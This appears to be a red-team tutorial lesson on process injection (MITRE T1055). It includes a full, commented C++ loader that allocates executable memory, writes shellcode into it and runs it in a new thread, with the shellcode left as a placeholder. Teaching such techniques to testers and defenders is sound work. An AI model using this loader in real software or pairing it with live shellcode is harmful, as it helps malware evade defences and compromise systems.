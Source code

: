 Process injection is described by MITRE [[T1055](https://attack.mitre.org/techniques/T1055/)] as a privilege escalation and defence evasion technique.  The idea of which is to inject untrusted code into the address space of a trusted process, potentially bypassing defence solutions and allowing the code to inherit the security context of the process's owner.  There are many different techniques, some more sophisticated than others.  The aim of this lesson is to introduce you to some of the more straight-forward ones to get you familiar with the concept.  

The high-level steps required for process injection to be successful are to:

1. Allocate a new region of memory in the process.
2. Copy the shellcode into that region.
3. Execute the shellcode (typically with a thread).

## Classic injection

Perhaps the most vanilla form of process injection uses the VirtualAlloc, WriteProcessMemory, and CreateThread APIs.  This will inject and execute the shellcode in the running process.
```c++
#include <Windows.h>

int main()
{
    unsigned char shellcode[] = "..."; // your shellcode goes here

    // allocate a region of memory
    auto hMemory = VirtualAlloc(
        NULL,                       // we don't mind where it's allocated
        sizeof(shellcode),          // the size of memory region
        MEM_COMMIT | MEM_RESERVE,   // type of memory allocation
        PAGE_EXECUTE_READWRITE      // memory protection
    );
    
    // write the shellcode into memory
    SIZE_T bytesWritten = 0;
    WriteProcessMemory(
        GetCurrentProcess(),    // handle to target process
        hMemory,                // pointer to target memory region
        &shellcode,             // pointer to data to write
        sizeof(shellcode),      // length of data to write
        &bytesWritten           // receives the number of bytes written
    );

    // create a new thread
    DWORD threadId = 0;
    auto hThread = CreateThread(
        NULL,
        0,
        (LPTHREAD_START_ROUTINE)hMemory,  // a pointer to the thing to execute
        NULL,
        0,
        &threadId                         // receives the new thread ID
    );

    // wait for the thread to finish
    WaitForSingleObject(
        hThread,    // the handle to wait on
        INFINITE    // the length of time to wait
    );
    
    // close the thread handle
    CloseHandle(hThread);
}
```
